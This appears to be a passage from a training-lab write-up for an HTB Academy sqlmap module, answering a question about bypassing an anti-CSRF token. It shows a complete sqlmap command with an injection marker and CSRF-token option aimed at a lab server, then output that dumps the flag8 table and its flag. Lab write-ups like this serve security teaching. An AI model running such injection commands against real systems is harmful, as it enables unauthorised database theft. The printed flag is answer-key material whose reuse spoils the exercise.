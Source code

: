 ### Questions

#### Question #10

**Question**

What's the contents of table `flag8`? (Case #8)

![Firefox - Case8 Anti-CSRF Token Bypass](./assets/screenshots/sqlmap_essentials_firefox_case8_anti_csrf_token_bypass.png)

```javascript
--batch -T flag8 --dump --no-cast --csrf-token='t0ken'
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case8.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case8.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.48.226:59004' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'id=1*&t0ken=KGoByMKyROxW8RQLEXzYKQjtkFBsOCDlZiCtgZUzQ' --batch -T flag8 --dump --no-cast --csrf-token='t0ken'

[SNIP]

[08:41:47] [INFO] fetching current database
[08:41:47] [INFO] fetching columns for table 'flag8' in database 'testdb'
[08:41:47] [INFO] fetching entries for table 'flag8' in database 'testdb'
Database: testdb
Table: flag8
[1 entry]
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+

[SNIP]
```
